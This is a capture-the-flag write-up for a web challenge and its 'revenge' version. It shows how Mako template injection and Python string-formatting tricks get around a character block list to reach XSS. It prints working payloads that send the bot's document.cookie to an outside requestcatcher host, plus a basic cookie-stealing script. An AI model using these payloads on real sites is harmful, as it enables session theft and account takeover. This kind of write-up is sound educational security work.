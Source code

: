 # WEB/KISSFIXESS
## Description
Kiss My Fixes.
Ain't nobody solving this now.

## Challenge Overview 
So we were given a simple website with MAKO templating in which our we could give name as input and it would be displayed in rainbow pixel and flag was in bot's cookie
and it was clearly visible that [SSTI(Server side template injection)](https://www.yeswehack.com/learn-bug-bounty/server-side-template-injection-exploitation) 
was possible and we needed to use it to get XSS somehow as there were many things that were banned.

OK Lets understand the whole thing one by one,The website takes our input as a URL paramerter `name_input` and then the url is parsed and then before rendering anything
then value of the parameter is checked against a banned list of words and if any of the banned words is there then the name is replaced by `Banned characters detected!`

```python
banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "import", "eval", "exec", "os", ";", ",", "|"]
```

```python
class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):

        # Parse the path and extract query parameters
        parsed_url = urlparse(self.path)
        params = parse_qs(parsed_url.query)
        name = params.get("name_input", [""])[0]
        
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)

        # Render and return the page
        self.send_response(200)
        self.send_header("Content-Type", "text/html")
        self.end_headers()
        self.wfile.write(render_page(name_to_display=name).encode("utf-8"))
```
If the banned check is passed then the render_page is called (Renders the HTML page with the given name.) in which again HTML escaping is done to our name and then
the name_input parameter was directly embedded into the HTML template string on the server before the template was rendered. 
```python

def escape_html(text):
    """Escapes HTML special characters in the given text."""
    return text.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("(", "&#40;").replace(")", "&#41;")

def render_page(name_to_display=None):
    """Renders the HTML page with the given name."""
    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")

```
Since our name was direclty embeded into the template, SSTI was clearly possible as no check was stopping it (you could check with `${7*7}`). Basically in SSTI anything
you put in the `${..}` is treated as python expression as MAKO is python template engine and it would have access to all of Python's standard built-in functions 
and variables and also the variables that we give while calling the render function like in this case we have access to the variable banned that was given while rendering 
`return template.render(name_to_display=name_to_display, banned="&<>()")`. So it means even though `<` is banned we could get them using `${banned[1]}` and similarly
`>()`, I thought we would need to use the banned varibable somewhere but we were able to solve this without using this.

Ok since now we have understood how things are going lets start with the most basic payload we would need to steal the cookie and then we would see how we will bypass
these filters,So the most basic payload that would do the job is as simple as this. 
```html
<script>fetch('https://YOUR_SERVER/?c='+document.cookie)</script>
```
Now since <> are getting escaped we could use `${banned[1]}` to use them and also s is also in banned so instead we could use `<Script>` as html tags are case insensitive
and for () also we could use `${banned[3]}` again but we can't get `=`or `.` like this so we have to think of something,
Since anything inside `${..}` is a python expression so we could take help of it and so after some looking I found a way, `STRING FORMATTING` you could use something 
like `'%c'%60`, Basically The `%` tells Python that you want to format the string, and the `c` specifically means "treat the corresponding value as an integer ASCII 
code and convert it to a single character and the % in the `% 60`  acts as the link between the string and the value(s) to be formatted and since all any of these chars
or numbers are not banned so we could create the whole payload like this and bamm the challenge is solved, The final payload is 
```html
${'%c'%60}Script${'%c'%62}fetch${'%c'%40}'httpS://3x0tic${'%c'%46}requeStcatcher${'%c'%46}com/?c${'%c'%61}'+document${'%c'%46}cookie${'%c'%41}${'%c'%60}/Script${'%c'%62}
```

# Revenge Challenge 

So a Revenge challenge was released for this challenge , the result of the diff command on the challenge files
```bash
diff -r kissfixess/public/main.py kissfixessrevenge/public/main.py
198c198
< banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "import", "eval", "exec", "os", ";", ",", "|"]
---
> banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "&", "%", "^", "#", "@", "!", "*", "-", "import", "eval", "exec", "os", ";", ",", "|", "JAVASCRIPT", "window", "atob", "btoa", "="]
207c207
<     templ = html_template.replace("NAME", escape_html(name_to_display or ""))
---
>     templ = html_template.replace("NAME", name_to_display or "")
209c209,218
<     return template.render(name_to_display=name_to_display, banned="&<>()")
---
>     tp = template.render(name_to_display=name_to_display, banned="&<>()", copyright="haha", help="haha", quit="haha")
>     try:
>         tp_data = tp.split("<div class=\"rainbow-text\">")[1].split("</div>")[0]
>         if "." in tp_data or "href" in tp_data.lower():
>             name = " "
>             return name
>     except IndexError:
>         pass
>
>     return tp
```

Ok so not many changes were done in the challenge,Now more chars are in the banned list but now no html escaping is done before rendering the name but a 
check has been added after rendering in which it checks the div in which our name is coming for `.` or `href`, If its there then it replaces the name with 
`Banned characters detected!`

Ok so we will start again to find a bypass for these blacklisted chars since now we can't use `%` so can't use the method we used before but we could try to
do something similiar to that and again after some searching , Found another way for `STRING FORMATTING` or `Formatted string literal` , `f'{61:c}'` would return 
char `=`, Basically in this The f prefix before the string tells Python that this is a special f-string and that it should evaluate any expressions it finds 
inside curly braces {} Inside the string, the curly braces denote an expression that Python needs to execute.The colon inside the curly braces separates 
the value (on the left) from its format specifier (on the right) and `c`is the format specifier.

The first test of banned chars has been bypassed but the check which is being done after rendering is still there but that is also easy to bypass as you see that
its only checking inside the `<div class=\"rainbow-text\">`, So we could just close the div and then put our payload and it would work fine
```html
 </div><Script>fetch${banned[3]}'httpS://3x0tic${f'{46:c}'}requeStcatcher${f'{46:c}'}com/?c${f'{61:c}'}'+document${f'{46:c}'}cookie${banned[4]}</Script>
```
This is the final payload and Thats how you get the FLAG.
